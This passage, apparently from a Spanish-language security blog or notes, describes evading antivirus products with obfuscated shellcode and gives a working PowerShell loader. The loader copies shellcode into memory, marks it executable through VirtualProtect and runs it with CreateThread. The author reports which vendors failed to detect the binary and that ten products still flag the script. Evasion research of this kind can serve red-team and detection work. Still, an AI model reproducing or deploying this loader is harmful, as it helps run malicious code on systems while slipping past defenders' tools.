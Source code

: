 Y pues si no es detectado, pero encontramos un pequeño gran problema que al ser un archivo binario depende de archivo que lo haga ejecutar para lo cual .\LocalShellcodeExec es detectable por varios antivirus en este caso no es detectable para panda, kasperky ni Windows Defender por lo cual es una mini victoria

Pero no tenemos que quedarnos ahi, asi que he estado desarrollando un script en powershell para ejecutar el binario sin la necesidad de utilizar .\LocalShellcodeExec el cual es detectable por varias soluciones

```powershell

# Leer el shellcode (ya ofuscado con PolyGen)
$sc = Get-Content ".\output_shellcode" -Encoding Byte

# Reservar memoria RWX
$addr = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($sc.Length)
[System.Runtime.InteropServices.Marshal]::Copy($sc, 0, $addr, $sc.Length)

# Convertir permisos a ejecución
$VirtualProtect = @"
using System;
using System.Runtime.InteropServices;
public class VP {
    [DllImport("kernel32.dll")] public static extern bool VirtualProtect(IntPtr lpAddress, int dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $VirtualProtect
[uint32]$old = 0
[VP]::VirtualProtect($addr, $sc.Length, 0x40, [ref]$old)

# Crear hilo
$ct = @"
using System;
using System.Runtime.InteropServices;
public class CT {
    [DllImport("kernel32.dll")] public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll")] public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@
Add-Type $ct
$hThread = [CT]::CreateThread([IntPtr]::Zero, 0, $addr, [IntPtr]::Zero, 0, [IntPtr]::Zero)
[CT]::WaitForSingleObject($hThread, 0xFFFFFFFF)

```

Sin embargo este script sigue siendo limitado pues 10 soluciones lo encuentran como malicioso

![[Pasted image 20250830174919.png]]
